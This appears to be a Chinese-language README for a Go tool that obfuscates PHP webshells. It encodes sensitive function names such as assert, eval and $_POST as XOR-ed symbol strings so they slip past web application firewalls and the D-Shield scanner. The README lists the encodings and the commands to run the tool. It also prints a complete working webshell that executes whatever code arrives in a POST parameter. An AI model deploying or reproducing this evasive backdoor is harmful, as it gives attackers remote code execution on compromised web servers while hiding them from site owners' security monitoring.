

# webShell_byPass_PHP

php的webshell中一般会使用一些特殊函数，例如assert()，call_user_func()等，但是一些waf也会重点关注和监控这些函数在网站目录下出现位置。所以参考一些技术文章，主要通过php的特性，将敏感函数的字符串替换从而达到降低报警等级的目的。

这个golang脚本主要是通过字母可以经过符号和数字异或获取

例如在php的字符a可以表示为**"("]" ^ "<")"**，一些常见的字符串替换如下：

|       @assert       | "@".("]" ^ "<").("]" ^ ".").("]" ^ ".").("]" ^ "8").("]" ^ "/").("]" ^ ")") |
| :-----------------: | :----------------------------------------------------------: |
|      **@eval**      |   **"@".("]" ^ "8").("]" ^ "+").("]" ^ "<").("]" ^ "1")**    |
| **create_function** | **("]" ^ ">").("]" ^ "/").("]" ^ "8").("]" ^ "<").("]" ^ ")").("]" ^ "8")."_".("]" ^ ";").("]" ^ "(").("]" ^ "3").("]" ^ ">").("]" ^ ")").("]" ^ "4").("]" ^ "2").("]" ^ "3")** |
| **@call_user_func** | **"@".("]" ^ ">").("]" ^ "<").("]" ^ "1").("]" ^ "1")."_".("]" ^ "(").("]" ^ ".").("]" ^ "8").("]" ^ "/")."_".("]" ^ ";").("]" ^ "(").("]" ^ "3").("]" ^ ">")** |
|     **$_POST**      |   **"$_".("~" ^ ".").("~" ^ "1").("~" ^ "-").("~" ^ "*")**   |
|      **$_GET**      |         **"$_".("\~" ^ "9").("\~" ^ ";").("\~" ^ "*")**         |

如果想要替换自己的字符串可以运行：

```
go run string2Symbols.go -s "your string split by space"
```


查看默认一些函数：

```
go run string2Symbols.go
```



### 生成预览

```php
<?php
$a=("]" ^ "<").("]" ^ ".").("]" ^ ".").("]" ^ "8").("]" ^ "/").("]" ^ ")");
$b="_".("~" ^ ".").("~" ^ "1").("~" ^ "-").("~" ^ "*");
$c=$$b;
$a($c['key']);
?>
```

**D盾目录扫描结果**


## tips

1. assert()函数对应一些php版本不适用的问题
2. eval()不能像其他函数一样进行函数名替换

### Reference

- https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html
- https://www.cnblogs.com/0daybug/p/12610834.html